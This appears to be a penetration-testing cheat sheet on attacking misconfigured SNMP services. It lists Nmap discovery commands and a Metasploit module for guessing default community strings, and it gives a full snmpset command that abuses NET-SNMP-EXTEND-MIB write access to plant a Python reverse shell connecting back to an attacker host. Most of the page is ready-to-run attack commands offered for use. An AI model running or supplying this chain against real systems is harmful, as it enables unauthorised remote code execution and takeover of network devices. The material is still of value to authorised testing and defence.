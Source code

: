 # Simple Network Management Protocol (SNMP)

The SNMP protocol provides a way for devices on a network to share information with one another. As an attacker, we can sometimes leverage a misconfigured SNMP service to obtain detailed information about the system and/or execute arbitrary code.&#x20;

### Exploitation

#### Identifying SNMP on a Network

```bash
# Identify SNMP utilizing Nmap
nmap -sU -p161 $hosts 

# Identify SNMP and retrieve server type / operating system with Nmap
nmap -sU -p161 $hosts --script=snmp-sysdescr
```

#### Identifying Default Community Strings

```bash
# Identify Default Community Strings with Metasploit
auxiliary/scanner/snmp/snmp_login
```

#### Exploiting SNMP with Write Access

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c private $targetip \ 
 'nsExtendStatus."evil"' = createAndGo \
 'nsExtendCommand."evil"' = /usr/bin/python \
 'nsExtendArgs."evil"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"$ip\",$port));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

### References

{% embed url="https://www.blackhillsinfosec.com/snmp-strings-attached/" %}
